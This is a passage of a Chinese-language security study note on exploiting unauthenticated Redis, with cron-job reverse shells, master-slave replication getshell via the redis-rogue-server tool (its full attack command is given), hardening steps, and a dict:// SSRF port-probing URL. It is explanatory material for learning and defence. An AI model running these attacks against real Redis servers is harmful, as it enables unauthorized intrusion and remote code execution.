 利用定时任务反弹shell在目标系统是Centos上可用，Ubuntu上有限制

理由如下：

1.默认redis写文件后是644的权限，但ubuntu要求执行定时任务件/var/spool/cron/crontabs/权限必须是600也就是-rw-------才会执行，否则会报错，而Centos的定时任务文件权限644也能执行
2.redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错
3.两个系统的定时任务文件目录不同

利用主从复制getshell

条件：

版本(4.x~5.0.5)

原理：

数据读写体量很大时，为了减轻服务器的压力，redis提供了主从模式，主从模式就是指定一个redis实例作为主机，其余的作为从机，其中主机和从机的数据是相同的，而从机只负责读，主机只负责写。通过读写分离可以减轻服务器端的压力。

利用工具：

RedisRogueServer

地址：

[https://**github.com/n0b0dyCN/red**is-rogue-server](https://link.zhihu.com/?target=https%3A//github.com/n0b0dyCN/redis-rogue-server)

使用工具的命令：

python3 redis-rogue-server.py --rhost=x.x.x.x --lhost=x.x.x.x --exp=exp.so

两种使用方法：

交互式

反弹式

限制：

利用这个方法getshell或者rce任意导致redis服务瘫痪，一般不建议使用

redis未授权访问漏洞的防范措施：

1.添加登录密码

2.修改默认端口

3.关闭端口

4.禁止以root用户权限启动，以低权限启动redis服务

## 16.SSRF怎么结合Redis相关漏洞利用？

主要通过两种协议，dict协议和gopher协议。

dict协议利用redis相关漏洞：

探测端口：

ssrf.php?url=dict://x.x.x.x:$端口$ 利用burpsuite爆破端口
